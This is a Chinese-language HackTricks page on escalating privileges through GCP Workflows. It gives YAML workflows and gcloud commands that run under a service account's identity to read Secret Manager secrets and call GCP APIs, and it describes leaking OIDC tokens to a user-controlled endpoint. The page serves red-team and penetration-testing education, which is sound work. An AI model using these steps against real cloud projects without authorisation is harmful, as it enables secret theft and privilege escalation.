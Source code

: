 # GCP - Workflows Privesc

{% hint style="success" %}
学习和实践 AWS 黑客技术：<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks 培训 AWS 红队专家 (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
学习和实践 GCP 黑客技术：<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks 培训 GCP 红队专家 (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>支持 HackTricks</summary>

* 查看 [**订阅计划**](https://github.com/sponsors/carlospolop)!
* **加入** 💬 [**Discord 群组**](https://discord.gg/hRep4RUj7f) 或 [**telegram 群组**](https://t.me/peass) 或 **在** **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**上关注我们。**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github 仓库提交 PR 分享黑客技巧。

</details>
{% endhint %}

## Workflows

基本信息：

{% content-ref url="../gcp-services/gcp-workflows-enum.md" %}
[gcp-workflows-enum.md](../gcp-services/gcp-workflows-enum.md)
{% endcontent-ref %}

### `workflows.workflows.create`, `iam.serviceAccounts.ActAs`, `workflows.executions.create`, (`workflows.workflows.get`, `workflows.operations.get`)

据我所知，无法通过访问包含与工作流关联的服务账户凭据的元数据端点来获得 shell。然而，可以通过在工作流中添加要执行的操作来滥用服务账户的权限。

可以找到连接器的文档。例如，这是 [**Secretmanager 连接器的页面**](https://cloud.google.com/workflows/docs/reference/googleapis/secretmanager/Overview)**。** 在侧边栏中可以找到其他几个连接器。

在这里，您可以找到一个打印秘密的连接器示例：
```yaml
main:
params: [input]
steps:
- access_string_secret:
call: googleapis.secretmanager.v1.projects.secrets.versions.accessString
args:
secret_id: secret_name
version: 1
project_id: project-id
result: str_secret
- returnOutput:
return: '${str_secret}'
```
从CLI更新：
```bash
gcloud workflows deploy <workflow-name> \
--service-account=email@SA \
--source=/path/to/config.yaml \
--location us-central1
```
如果您没有网络访问权限，可以通过以下方式触发并查看工作流的执行： 

{% code overflow="wrap" %}
```bash
# Run execution with output
gcloud workflows run <workflow-name> --location us-central1

# Run execution without output
gcloud workflows execute <workflow-name> --location us-central1

# List executions
gcloud workflows executions list <workflow-name>

# Get execution info and output
gcloud workflows executions describe projects/<proj-number>/locations/<location>/workflows/<workflow-name>/executions/<execution-id>
```
{% endcode %}

{% hint style="danger" %}
您还可以检查先前执行的输出以查找敏感信息
{% endhint %}

请注意，即使您收到类似 `PERMISSION_DENIED: Permission 'workflows.operations.get' denied on...` 的错误，因为您没有该权限，工作流仍然已生成。

### 泄露 OIDC 令牌（和 OAuth？）

根据 [**文档**](https://cloud.google.com/workflows/docs/authenticate-from-workflow)，可以使用工作流步骤发送带有 OAuth 或 OIDC 令牌的 HTTP 请求。然而，就像在 [Cloud Scheduler](gcp-cloudscheduler-privesc.md) 的情况下，带有 Oauth 令牌的 HTTP 请求必须发送到主机 `.googleapis.com`。

{% hint style="danger" %}
因此，**通过指示用户控制的 HTTP 端点泄露 OIDC 令牌是可能的**，但要泄露 **OAuth** 令牌，您需要 **绕过** 该保护。然而，您仍然可以使用连接器或带有 OAuth 令牌的 HTTP 请求 **联系任何 GCP API 以代表服务账户执行操作**。
{% endhint %}

#### Oauth

{% code overflow="wrap" %}
```yaml
- step_A:
call: http.post
args:
url: https://compute.googleapis.com/compute/v1/projects/myproject1234/zones/us-central1-b/instances/myvm001/stop
auth:
type: OAuth2
scopes: OAUTH_SCOPE
```
{% endcode %}

#### OIDC
```yaml
- step_A:
call: http.get
args:
url: https://us-central1-project.cloudfunctions.net/functionA
query:
firstNumber: 4
secondNumber: 6
operation: sum
auth:
type: OIDC
audience: OIDC_AUDIENCE
```
### `workflows.workflows.update` ...

使用此权限而不是 `workflows.workflows.create`，可以更新已存在的工作流并执行相同的攻击。

{% hint style="success" %}
学习与实践 AWS 黑客技术：<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
学习与实践 GCP 黑客技术：<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>支持 HackTricks</summary>

* 查看 [**订阅计划**](https://github.com/sponsors/carlospolop)!
* **加入** 💬 [**Discord 群组**](https://discord.gg/hRep4RUj7f) 或 [**Telegram 群组**](https://t.me/peass) 或 **关注** 我们的 **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub 仓库提交 PR 来分享黑客技巧。

</details>
{% endhint %}
